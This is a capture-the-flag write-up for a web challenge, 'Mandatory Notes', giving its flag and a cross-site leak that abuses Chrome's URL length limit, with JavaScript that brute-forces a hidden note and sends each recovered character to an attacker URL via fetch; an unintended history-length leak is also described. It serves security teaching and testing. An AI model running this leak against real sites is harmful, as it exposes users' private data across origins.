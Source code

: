 # Mandatory Notes Challenge

**Author**: zeyu2001

**Category**: Web

Flag: `SEE{m4nd4t0ry_xs_l34k_dba26b9558}`

## Description

We have credible intelligence that Sussy McSus, CEO of EvilCorp, a shady MultiNational Corporation, is using this note-taking app to store sensitive information. He is known to be in cahoots with the SEE-IA. Can you find out what he is up to?

Note: the target page is `http://mnc.web.seetf.sg:1337/`.

## Difficulty

Hard

## Deployment

`docker-compose up -d`

## Solution

**Tested on Chrome Version 110.0.5481.77 (Official Build) (x86_64)**

Abusing Chrome's behavior when dealing with long URLs combined with URI fragments persisting across server redirects. I found this technique as an [unintended solution to `secrets` from HackTM CTF 2023](https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets).

If the note is found, the user is redirected to `?found=1#<base64 encoded JSON array of note IDs>`, otherwise they are redirected to `?found=0`.

```javascript
const found = req.session.notes.filter(note => note.text.includes(query));

if (!found.length) {
    return res.redirect('/?found=0');
}
return res.redirect(`/?found=1#${btoa(JSON.stringify(found.map(note => note.id)))}`);
```

Because URI fragments persist across server-side redirects, we can artificially inflate the URL length by adding a long fragment so that it is exactly 1 byte less than [Chrome's 2MB limit](https://chromium.googlesource.com/chromium/src/+/main/docs/security/url_display_guidelines/url_display_guidelines.md#url-length).

When a redirect causes the URL to increase in length, the 2MB limit is hit and the navigation is aborted. The page would become `about:blank#blocked`. Interestingly, this means that the window reference is treated as same-origin and the opener is able to read `window.origin` and other sensitive properties that are normally inaccessible from a cross-origin page.

This gives us two cases:

1. `?q=<guess>#AAA...AAA` finds a note. The user is redirected to `/?found=1#<base64 encoded JSON array of note IDs>`. Because the redirect includes a fragment, the long `#AAA...AAA` fragment is replaced with the new, much shorter fragment. The navigation proceeds as normal and the window is treated as cross-origin.
2. `?q=<guess>#AAA...AAA` does not find a note. The user is redirected to `/?found=0`. Because the redirect does not include a fragment, the long `#AAA...AAA` fragment is preserved. The navigation is aborted and the window is treated as same-origin.

Our goal is to distinguish between these two cases.

We can do this by catching the error thrown when attempting to access `window.origin` of a cross-origin window. If the error is thrown, we know that the URL length limit not exceeded and the note was found.

```javascript
const leak = async (url) => {
    let w = window.open(url + "#" + "A".repeat(2 * 1024 * 1024 - url.length - 1));
    await sleep(800);
    try {
        // Page is still same-origin, so about:blank page loaded
        // The URL length limit was exceeded
        w.origin;
        await w.close();
        return 0;
    } catch {
        // The URL length limit was not exceeded, so note was found
        await w.close();
        return 1;
    }
}
```

In order to detect the redirects, we must keep our query sufficiently short so that the original URL is at least 1 byte less than the final redirected URL. This means that we can only check 4 characters at a time (`?q=AAAA` is exactly 1 byte less than `?found=0`). We can use this to brute-force the flag character by character.

```javascript
const solve = async (char) => {
    // ?q=AAAA   redirects to
    // ?found=0  if note not found (so the URL is one character too long)
    // We can only check 4 characters at a time
    if (await leak(`http://chall?q=${flag.slice(-3) + char}`)) {
        await fetch(`${OUR_URL}?flag=${flag + char}`);
        return true;
    }
}
```

## Unintended Solution

Because `Cross-Origin-Opener-Policy` is not set, there is an unintended solution.

This challenge can also be solved through the traditional [history length leak](https://xsinator.com/testing.html#History%20Length%20Leak) technique, since the page redirects to a predictable URL when found.

1. Open a new window.
2. Set `win.location` to `baseUrl + "?q=" + query + char;`.
3. Wait for the redirect to complete.
4. Set `win.location` to `baseUrl + "?found=1#WzBd";`, and after a very short timeout, set it back to `about:blank`.

If the note was found, step 3 would have already landed the page at `baseUrl + "?found=1#WzBd";`. When the last step sets `win.location` to the same URL, the navigation is completed immediately.

If the note was not found, the short timeout means that the navigation would not have completed by the time the last step sets `win.location` to `about:blank`.

This causes a difference in the history length, which can be detected by the opener.
